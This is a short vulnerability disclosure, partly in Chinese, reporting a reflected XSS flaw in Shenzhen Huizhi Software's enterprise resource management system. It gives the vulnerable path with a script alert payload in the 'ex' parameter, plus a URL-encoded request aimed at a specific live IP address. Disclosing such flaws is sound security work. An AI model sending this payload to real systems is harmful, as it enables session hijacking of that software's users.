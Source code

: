 XSS vulnerability exists in the program enterprise resource management system developed by Shenzhen Huizhi Software Development Co., LTD

深圳汇智软件开发有限公司 开发的程序 汇智企业资源管理系统 存在XSS漏洞

/nssys/home/nslicensemng.aspx?ex=<script>alert(1)</script>

https://47.103.75.214/nssys/home/nslicensemng.aspx?ex=%3Cscript%3Ealert(1)%3C/script%3E



Attackers can exploit XSS vulnerabilities to steal the sessions of logged-in users, impersonating them to carry out unauthorized actions such as changing passwords or making purchases

![image-20240722192338167](1.png)

![image-20240722192300420](2.png)